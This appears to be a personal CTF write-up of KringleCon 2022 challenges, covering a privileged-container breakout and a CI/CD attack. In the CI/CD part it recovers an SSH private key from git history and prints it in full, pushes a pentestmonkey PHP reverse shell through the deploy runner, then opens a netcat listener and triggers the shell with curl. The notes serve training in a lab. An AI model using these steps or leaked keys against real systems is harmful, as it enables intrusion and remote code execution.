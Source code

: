 # Clone with a purpose

![[Pasted image 20221208194235.png]]
![[Pasted image 20221208194447.png]]

```
git clone https://haugfactory.com/asnowball/aws_scripts.git

```

![[Pasted image 20221208194711.png]]
# Prison escape
Hint from
https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/

![[Pasted image 20221208190025.png]]
![[Pasted image 20221208192822.png]]


![[Pasted image 20221210130327.png]]

```
082bb339ec19de4935867 
```

```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Section Mounting Disk - Poc1 
```

# Jolly CI/CD
![[Pasted image 20221210132309.png]]

hint 1 
Switching Hats
_From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

hint2 
Commiting to Mistakes
_From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.

![[Pasted image 20221210131432.png]]
```
sudo git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
![[Pasted image 20221216103854.png]]
url from the elf outside
![[Pasted image 20221210140021.png]]

im thinking the hint may refer to doing a sudo git clone
then doing a git checkout of any mistakes 'whoops'

```
commit e2208e4bae4d41d939ef21885f13ea8286b24f05
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:43:53 2022 -0700

    big update

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops
```
at big_update
![[Pasted image 20221210151026.png]]
![[Pasted image 20221210151307.png]]
mistake made in added assets and fixed in whoops
```
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

![[Pasted image 20221210153628.png]]

```
sudo git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
```

go to directory with .ssh/.deploy

from here, copy ssh key, run a clone with it

```
git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```

private key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

Looking at this there is a file that shows a runner will update the site with anything i push to main. i can upload a php shell to the repo and the runner will add it to the site 
php shell
```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```


```
git add 'shell.php'
git commit -m 'say something'
git push ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git main
```


type ``` screen``` to create another screen
ctrl+a CTRL+c (now have 2 screens to alternate)
nc -nvlp 1234
ctrl + a (twice?) to move back a screen
```
curl http://wordpress.flag.net.internal/shell.php
```

![[Pasted image 20221216093220.png]]

![[Pasted image 20221216093650.png]]

![[Pasted image 20221216093741.png]]


oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
